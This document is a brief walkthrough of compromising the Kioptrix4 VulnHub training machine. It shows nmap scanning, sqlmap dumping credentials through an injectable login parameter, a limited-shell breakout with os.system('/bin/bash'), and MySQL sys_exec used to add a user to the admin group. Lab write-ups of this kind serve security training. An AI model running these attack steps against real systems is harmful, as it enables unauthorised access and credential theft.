



### target:			kioptrix4 by Kioptrix Team

### hosted by:			vulnhub.com

### virtualization software:	virtualbox

### testing platform:		kali linux 2017

###walkthrough by:		worzel_gummidge


the attacker uses **nmap** to discover *tcp22*, *tcp80*, *tcp139* and *tcp445* are open.

```bash
nmap 192.168.56.103 -A -n -T5 -p1-65535
```


after the attacker uses **burp** to capture the login request on the target website, the request file is fed into **sqlmap**. the *password* parameter is injectable and the attacker is able to access login credentials.



```bash
sqlmap -r sql1.txt --risk 3 --level 5 --dump-all
```


the credentials are used to log in to the target machine via *ssh*. the attacker has a limited shell. the attacker is able to break out of the limited shell issuing the followung command:

```bash
echo os.system("/bin/bash")
```




the attacker finds mysql credentials and uses them to add his/ her current user *john* to the admin group.

```bash
mysql -h loacalhost -u root -p
```

```mysql
select sys_exec('usermod -a -G admin john')
```


